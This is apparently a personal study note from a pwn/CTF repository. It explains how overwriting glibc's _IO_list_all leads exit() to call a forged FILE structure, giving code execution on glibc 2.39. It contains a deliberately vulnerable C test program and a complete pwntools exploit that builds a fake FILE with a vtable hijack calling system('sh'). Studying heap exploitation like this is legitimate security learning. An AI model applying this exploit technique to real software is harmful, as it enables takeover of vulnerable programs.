



## Abusing `_IO_list_all` to gain remote code execution

> I know about `_IO_list_all` via `house of orange` technique, which abusing `_IO_list_all` as a part of gain rce.

First time i think of this is when doing some heap exploit. Since `__free_hook`/`__malloc_hook`/... has been removed since glibc `2.34`, make pwn-er harder to exploit heap (not really), (imo) `_IO_list_all` is a good target substitute for them, with few and easily bypass constrainsts.

> Few months later, i found out there is a chinese blogs even more details about this, dark... I will include it at references.

Here i want to note some importants while experiment and provide examples code to reuse later.

---

### 1. C template code for experiments

Here is small C code using for testing:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    long *ptr, addr, value;

    ptr = malloc(0xe8);
    printf("heap leak: %p\n", ptr); // leak heap

    printf("libc leak: %p\n", stdout); // leak libc

    printf("fake fp: "); // prepare fake file structure in heap region
    read(0, ptr, 0xe8);

    printf("addr: "); // choose address
    scanf("%ld", &addr);

    printf("data: ");
    read(0, (long *)addr, 8); // overwrite that address

    exit(0);

    return 0;
}
```

The program give you a libc leak, heap leak, and one time arbitrary write to any address (which is usually essential in heap style challenge...)

For experiments, i use glibc `2.39` version (and `ld.so`) (with full debug symbols). I also wrote how to compile C code with desired glibc versions [here](/heap/compiling/readme.md).

### 2. Ideas overview

#### `_IO_list_all`

There are three basic FILE variables usually found in a program: `_IO_2_1_stderr`, `_IO_2_1_stdout`, and `_IO_2_1_stdin`.

In glibc, the `_IO_list_all` variable is a linked list that holds all FILE structures in the binary. By default, it points to `stderr` first, the next elements in the list are linked using the `_chain` field.


```C
struct _IO_FILE_plus *_IO_list_all = &_IO_2_1_stderr_;
```

#### `exit()`

Lets take an example when program call `exit()`

In short, the exit function will call `_IO_cleanup` (though this is usually only visible when debugging with GDB), so some IO operations are also involved.

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L129)


We can see that `_IO_cleanup` calls `_IO_flush_all`.

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L841)


`_IO_flush_all` goes through all available FILE structures (using `_IO_list_all` as mentioned earlier). If certain conditions are met, it will call `_IO_OVERFLOW(fp, EOF)`. This function then makes a call to the function pointer stored in `fp.vtable[__overflow]`.

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L685)


So basically, my ideas is overwrite `_IO_list_all` to prepared fake file struct, forge FSOP to gain rce.

### 3. Writing exploit

> I will describe quickly (assume that you're already familiar with fsop and some heap exploitation...)

We prepare a fake file structure in the heap region, easily understand and perform when dealing with heap-style problems.

To `exit()` reach to `_IO_OVERFLOW(fp, EOF)`, our (fake) file structure need some conditions:

- `fp->_mode <= 0`
- `fp->_IO_write_ptr > fp->_IO_write_base`

After bypass, we need to hijacking the `vtable`, then perform some fsop rce (which have their own conditions)...

Here is how my fake file structure look like:

```python
# create a fake file structure
system = libc_base + libc.symbols['system']
fileptr = heap_base + 0x2a0
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._IO_write_base = 0
fp._IO_write_ptr = 1
fp._lock = fileptr + 0x1000
fp._wide_data = fileptr
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps']
payload = bytes(fp) + p64(fileptr + 0x10 - 0x68)
```

I create it by modify [this](/fsop/io_paths/pwn_college/readme01) a little.

#### The full exploit

```python
#!/usr/bin/env python3

from pwn import *

# exit will call _IO_flush_all
# https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L685

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

# leak heap and libc
p.recvuntil(b"heap leak: ")
heap_base = int(p.recvline(), 16) - 0x2a0

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - libc.symbols['_IO_2_1_stdout_'] 

# create a fake file structure
system = libc_base + libc.symbols['system']
fileptr = heap_base + 0x2a0
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._IO_write_base = 0
fp._IO_write_ptr = 1
fp._lock = fileptr + 0x1000
fp._wide_data = fileptr
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps']
payload = bytes(fp) + p64(fileptr + 0x10 - 0x68)

p.sendafter(b"fake fp: ", payload)

# overwrite _IO_list_all -> fake fp (= fileptr in heap)
_IO_list_all = libc_base + libc.symbols['_IO_list_all']
p.sendlineafter(b"addr: ", f"{_IO_list_all}".encode())
p.sendafter(b"data: ", p64(fileptr))

p.interactive()
```

You should change the offset calculated to adapt with your libc versions and local setting. I know it not clean looking but here is just my poc and note for me to reuse or refresh later.

### 4. Final thoughts and references

When dealing with a heap challenges, we often have a arbitrary write primitives (after abusing bug),  also prepared fake file structure part is (oftenly) easily done. `_IO_list_all` is a great target with few bytes overwrite but gain a powerful rce.

We can combine `_IO_list_all` with `largebin_attack`, or even with magic gadget to bypass seccomp, you can find more details in this blog:

> Yeah, the chinese's blog i talk about...

- https://4xura.com/pwn/pwn-travelgraph/

